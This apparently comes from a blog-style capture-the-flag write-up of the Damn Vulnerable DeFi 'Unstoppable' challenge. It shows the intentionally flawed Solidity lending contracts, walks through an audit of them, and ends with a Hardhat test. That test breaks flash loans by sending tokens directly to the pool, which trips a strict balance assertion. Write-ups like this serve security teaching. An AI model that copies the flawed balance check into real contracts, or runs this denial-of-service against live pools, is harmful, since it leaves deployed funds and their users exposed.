

**Wargame Provider: @tinchoabbate**

> Challenge #1 — Unstoppable
There’s a lending pool with a million DVT tokens in balance, offering flash loans for free.
If only there was a way to attack and stop the pool from offering flash loans …
You start with 100 DVT tokens in balance.


## Code Audit
> UnstoppableLender.sol

``` Solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract DamnValuableToken is ERC20 {

    constructor() ERC20("DamnValuableToken", "DVT") {
        _mint(msg.sender, type(uint256).max);
    }
}
```

``` Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

interface IReceiver {
    function receiveTokens(address tokenAddress, uint256 amount) external;
}

contract UnstoppableLender is ReentrancyGuard {

    IERC20 public immutable damnValuableToken;
    uint256 public poolBalance;

    constructor(address tokenAddress) {
        require(tokenAddress != address(0), "Token address cannot be zero");
        damnValuableToken = IERC20(tokenAddress);
    }

    function depositTokens(uint256 amount) external nonReentrant {
        require(amount > 0, "Must deposit at least one token");
        // Transfer token from sender. Sender must have first approved them.
        damnValuableToken.transferFrom(msg.sender, address(this), amount);
        poolBalance = poolBalance + amount;
    }

    function flashLoan(uint256 borrowAmount) external nonReentrant {
        require(borrowAmount > 0, "Must borrow at least one token");

        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        assert(poolBalance == balanceBefore);
        
        damnValuableToken.transfer(msg.sender, borrowAmount);
        
        IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);
        
        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
}
```

### Quick Security Check

By using the ReentrancyGuardcontract, `ReentrancyGuard’s` nonReentrant Modifier is applied to the internal functions of the main contract to prevent reentrancy calls from occurring.

### State Variables

Two State Variables are being used. The damnValuableToken variable is assigned as an IERC20 token. The `poolBalanc` evariable is used as the flashLoan pool within the contract.

### Functions

- You can see that the constructor sets token address as a factor of address type.

- Let’s check the function. `depositTokens(uint256 amount) external nonReentrant`

- When proceeding to this contract based on passing the condition that the amount value must be greater than 0, by default, the amount must be transferred with a positive value.

- Call the token contract function `transferFrom` and send to this contract in balance as much as the value of the variable

- Finally, add the value of the amount sent to the `poolBalance` value.

Let’s check the function. `flashLoan(uint256 borrowAmount) external nonReentrant`

- Depending on the value of the `borrowAmount` parameter, you can take out a loan from the balance deposited in the contract pool.
- You can see various Error Handling patterns. The `borrowAmount` value must be greater than zero, which can be borrowed from the minimum positive value of 1.you can get a loan from the balance deposited in the contract pool.
- BalanceBefore Local Variable is assigned the Current Contract Balance. Must be greater than or equal to the value of browAmount. The value you want to borrow must not exceed the Contract Balance value.
- In code `assert(poolBalance==balanceBefore)` ErrorHandling, the value of the poolBalance variable must be the same as the value of the balanceBefore variable. This condition is because the value of the poolBalance variable was updated by depositing the balance to this contract in the depositTokens function and adding the value of the poolBalance variable to the value of the amount variable.
- Send the value of the `browAmount` variable to `msg.sender` using the `transfer` function. (This section completes the transfer.)
- `IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount)` Transfer the token’s address value and loan balance value to the receiver Tokens function defined in the external contract to proceed with loan repayment. After completing the loan, this Contract Current Balance compares the values of the previous Balance to complete the flashloan operation.

> ReceiverUnstoppable.sol

``` Solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../unstoppable/UnstoppableLender.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract ReceiverUnstoppable {

    UnstoppableLender private immutable pool;
    address private immutable owner;

    constructor(address poolAddress) {
        pool = UnstoppableLender(poolAddress);
        owner = msg.sender;
    }

    function receiveTokens(address tokenAddress, uint256 amount) external {
        require(msg.sender == address(pool), "Sender must be pool");
        require(IERC20(tokenAddress).transfer(msg.sender, amount), "Transfer of tokens failed");
    }

    function executeFlashLoan(uint256 amount) external {
        require(msg.sender == owner, "Only owner can execute flash loan");
        pool.flashLoan(amount);
    }
}
```
### State Variable

`UnstoppableLender private immutable pool;`

- Assign a distribution address for the Unstoppable deployed contract.

`address private immutable owner;`

- Assigns the address of msg.sender in the current contract.

### Functions

`constructor(address poolAddress)`

- Set up the distribution address of the UnstoppableLender contract and the current contract msg.sender address value in each state variable.

`function receiveTokens(address tokenAddress, uint256 amount) external`

- We will proceed with the repayment of the loan while working on the flash loan.
- Compare the msg.sender address value with the contract address value because UnstoppableLender contract only calls this function.
- Finalize the loan repayment based on the transfer function.

`function executeFlashLoan(uint256 amount) external`

- UnstoppableLendercotnract internal flashLoan functions can be call.
- To make a call, the address value of the msg.sender address, that is, the address value of the call contract, must be the same as the address value of msg.senderwhen deploying the RecoverUnstoppable contract.
- Only the owner should be able to run flashloan for this part.

## Vulnerability

The final attack objective of the target contract should disable the flash loan System, causing DOS. As a result of the contract code auditing, you can see that it is a simple flash Loan pattern.
`flashLoan(uint256 borrowAmount) external nonReentrant` To disable a function, you must carefully analyze its dependencies, such as variables and external contracts.

This function uses a number of state variables to perform an Error Handling test. You can see the state variable `PoolBalance`. Verify that the value of this variable is the same for the balance before the loan, which is the balance Before variable. If the condition fails because of the use of `assert(poolBalance==balanceBefore);` assert handle, it causes an error after exhausting gas.

`PoolBalance` StateVariable is used to track and trigger the balance by adding the balance to the GlobalVariable value `msg.sender` balance during the deposition to this flashLoan pool contract via the `depositionTokens` function.

You can see that there is a problem with the error handling method.In the `depositTokens` function, the balance of the `UnstoppableLender` Contract is added. The balance value is stored equally in the `poolBalance` variable and is used in the flashLoan function to check the balance condition.

### What happens if you force the transfer function to add the balance without calling the depositToken function?

By bypassing the logic configured in the contract, the balance value of the contract was added abnormally, so `assert(poolBlance == balanceBefore);` error handling was performed on flashLoan, which could cause a contract error to cause DOS.

## Solve

Call the transfer function without adding a contract balance through the `depoitToken` function to add a contract balance, and finally call the flashLoan function. An exception occurred successfully through testing, and DOS attack completed successfully.

``` tsx
const { expect } = require('chai');

describe('[Challenge] Unstoppable', function () {
    let deployer, attacker, someUser;

    const TOKENS_IN_POOL = ethers.utils.parseEther('1000000');
    const INITIAL_ATTACKER_TOKEN_BALANCE = ethers.utils.parseEther('100');

    before(async function () {
        [deployer, attacker, someUser] = await ethers.getSigners();

        const tokenFactory = await ethers.getContractFactory('DamnValuableToken', deployer);
        const UnstoppableLenderFactory = await ethers.getContractFactory('UnstoppableLender', deployer);

        this.token = await tokenFactory.deploy();
        this.pool = await UnstoppableLenderFactory.deploy(this.token.address);

        await this.token.approve(this.pool.address, TOKENS_IN_POOL);
        await this.pool.depositTokens(TOKENS_IN_POOL);

        await this.token.transfer(attacker.address, INITIAL_ATTACKER_TOKEN_BALANCE);

        expect(
            await this.token.balanceOf(this.pool.address)
        ).to.equal(TOKENS_IN_POOL);

        expect(
            await this.token.balanceOf(attacker.address)
        ).to.equal(INITIAL_ATTACKER_TOKEN_BALANCE);

        const ReceiverContractFactory = await ethers.getContractFactory('ReceiverUnstoppable', someUser);

        this.receiverContract = await ReceiverContractFactory.deploy(this.pool.address);
        await this.receiverContract.executeFlashLoan(10);

    });
    
    it('Exploit', async function () {
        await (this.token.connect(attacker)).transfer(
            this.pool.address,
            INITIAL_ATTACKER_TOKEN_BALANCE
        )
    });

    after(async function () {
        await expect(
            this.receiverContract.executeFlashLoan(10)
        ).to.be.reverted;
    });
});
```
I think that the vulnerability is related to [SWC-132]Unexpected EtherBalance content in the Smart Contract Weakness Classification Registry.


## next time.. 🚀

I will continue to post auditing and research on 12 challenge defi Smart Contracts.

Thank you for the @tinchoabbate that made a good wargame.
[Damn Vunlerable Defi](https://www.damnvulnerabledefi.xyz/)